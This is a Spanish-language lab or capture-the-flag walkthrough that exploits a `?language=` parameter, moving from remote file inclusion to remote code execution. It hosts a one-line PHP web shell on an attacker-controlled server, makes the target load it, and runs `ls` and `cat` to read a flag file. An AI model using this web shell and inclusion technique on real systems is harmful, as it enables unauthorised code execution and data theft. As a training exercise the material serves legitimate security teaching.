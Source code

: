 # LFI: RFI -> RCE 👩‍💻

La página web que vulneraremos es:

![Web.PNG](./assets/05-Quinto/01-Web.PNG)

* Vemos el **atributo** `?language=<Archivo>.php` en el cual podemos lograr un LFI y, en este caso, derivarlo a un `RCE` 👩‍💻

---

1. Para comprobar si la página es vulnerable a `RFI`, primero levantaremos un **servidor http** con Python 🐍

```
python3 -m http.server 80
```

2. Realizaremos una petición a nuestro servidor a través del parámetro `?language=http://<IP Atancante>:<Puerto>`

3. Vemos los logs del servidor http.

<p align="center">
    <img src="./assets/05-Quinto/02-RFI.PNG">
</p>

* Notamos que el servidor web vulnerable realiza un petición a nuestro servidor **http**, por lo cual, el servidor web es vulnerable a `RFI` 👩‍💻

---

Creamos un script en php que nos permita ejecutar comandos a través del parámetro `cmd`

* `script.php`

    ```php
    <?php system($_GET['cmd']); ?>
    ```

---

Ahora realizamos la petición a este **script** y listamos los archivos de la `ruta del sistema` 💻

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=ls /`

<p align="center">
    <img src="./assets/05-Quinto/03-exercise.PNG">
</p>

`Exercise` es un directorio, así que, lo listaremos 

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=ls /exercise`

<p align="center">
    <img src="./assets/05-Quinto/04-flag.PNG">
</p>

---

Por último, leemos el archivo `flag.txt`

* **URL**: `http://<IP Web>/index.php?language=http://<IP Atacante/script.php&cmd=cat /exercise/flag.txt`

<p align="center">
    <img src="./assets/05-Quinto/05-final.PNG">
</p>